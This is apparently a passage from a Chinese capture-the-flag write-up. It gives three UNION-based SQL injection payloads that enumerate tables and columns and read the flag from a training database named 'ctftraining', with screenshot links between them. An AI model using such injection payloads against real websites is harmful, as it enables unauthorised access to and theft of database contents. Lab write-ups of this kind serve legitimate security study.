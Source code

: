 还有一个ctftraining 

**爆表**

```
-1)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema="ctftraining"--+
```

![image-20250807093709826](./NSSCTF-4.assets/image-20250807093709826.png)

**爆列**

```
-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" and table_name="flag"--+
```

![image-20250807093745071](./NSSCTF-4.assets/image-20250807093745071.png)

**爆字段**

```
-1)))))) union select 1,flag from ctftraining.flag--+
```
